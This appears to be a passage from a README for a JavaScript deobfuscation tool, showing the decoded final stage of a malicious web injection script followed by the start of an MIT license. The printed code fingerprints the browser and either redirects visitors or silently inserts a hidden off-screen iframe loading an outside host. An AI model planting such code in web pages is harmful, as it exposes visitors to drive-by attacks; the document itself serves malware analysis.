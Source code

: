Deobfuscating the final stage:

    function() {
        if (document.body != null && typeof document.body != "undefined") {
            clearInterval(zfxhYOGvfrlHUNJrZufQnWPtohkYAQEEdV);
            if (typeof window["v_bcd50d9482665cd4e129a272c76799e6"] == "undefined") {
                window["v_bcd50d9482665cd4e129a272c76799e6"] = 1;
                var YJEsPBctdgLUVvQpXvqYKJmoYsElJUhXr = (DfPJmMLOnxPanSoeHQuOrDdSoCPJGAaRhYURtgyUD() && CCtJDLZQbieboJvsIyatBMZhUvTpzaQcyCXR());
                var YBMlxOjmRXjqriuNuiEQPAJsQuuwPLiQW = !YJEsPBctdgLUVvQpXvqYKJmoYsElJUhXr && !!window.chrome && window.navigator.vendor === "Google Inc.";
                var rfddjrtkllJefuAgPfwCNdpgltcAYetudMCia = -1;
                var NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS = "http://beladonna33.ga/052F";
                if (hgvANEpEuWeKcGvvwzyKQIhEoKIHuYnyaOtvVW() && rfddjrtkllJefuAgPfwCNdpgltcAYetudMCia == 1) {
                    if ((navigator.userAgent.match(/iPhone/i)) || (navigator.userAgent.match(/iPod/i))) {
                        location.replace(NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS)
                    } else {
                        window.location = NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS;
                        document.location = NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS
                    }
                } else {
                    if ((YJEsPBctdgLUVvQpXvqYKJmoYsElJUhXr && !YBMlxOjmRXjqriuNuiEQPAJsQuuwPLiQW && !hgvANEpEuWeKcGvvwzyKQIhEoKIHuYnyaOtvVW())) {
                        var blDiNORLBvDHjFRqgxXSMVgnfhriGmw = "<div style=\"position:absolute;left:-2808px;\"><iframe width=\"27px\" src=\"" + NOpYEscCPxFAjNAQevxjqvOuLilysKlWWoayIjJeS + "\" height=\"27px\"></iframe></div>";
                        var wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL = document.getElementsByTagName("div");
                        if (wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL.length == 0) {
                            document.body.innerHTML = document.body.innerHTML + blDiNORLBvDHjFRqgxXSMVgnfhriGmw
                        } else {
                            var dl_name = wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL.length;
                            var eBYogcDktAguizQshmLzdvYhWtSflHvZqVuqIc = Math.floor((dl_name / 2));
                            wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL[eBYogcDktAguizQshmLzdvYhWtSflHvZqVuqIc].innerHTML = wudhWcxLZqnlyHWLSZexIwyPtiJtGDxL[eBYogcDktAguizQshmLzdvYhWtSflHvZqVuqIc].innerHTML + blDiNORLBvDHjFRqgxXSMVgnfhriGmw
                        }
                    }
                }
            }
            OncYaaSjwrEWhyHWevaHtkypMUSZxnIrtIK()
        }
    }


## License ##

The MIT License (MIT)

Copyright (c) 2016 Hynek Petrak

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
